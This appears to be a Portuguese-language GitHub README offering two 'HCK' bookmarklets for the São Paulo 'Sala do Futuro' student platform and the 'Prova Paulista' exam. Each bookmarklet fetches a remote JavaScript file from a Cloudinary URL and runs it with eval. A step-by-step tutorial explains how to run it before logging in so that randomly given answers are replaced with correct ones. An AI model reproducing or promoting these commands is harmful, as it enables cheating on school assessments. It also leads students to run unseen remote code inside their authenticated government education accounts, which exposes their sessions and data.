 # 🚀 HCK - PROVA PAULISTA 

### HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### HCK - TAREFAS:
### TUTORIAL:
1. Execute o script antes de efetuar o login no [Sala do Futuro](https://saladofuturo.educacao.sp.gov.br/login-alunos)
2. Depois de efetuado, deve ir até a tarefa que você quer fazer
3. Responda aleatoriamente às questões e envie
4. O script irá colocar todas às respostas corretas.

*Obs: O tempo da tarefa depende unicamente de quanto tempo você ficar na página dela antes de enviar.*

```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745790408/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### [Discord: Hackermoon](https://discord.gg/k5BFyvbj)

### Créditos

[Inacallep](https://github.com/inacallep)

[Crackingnlearn](https://github.com/crackingnlearn)

[Miturufu](https://github.com/Miturufu)



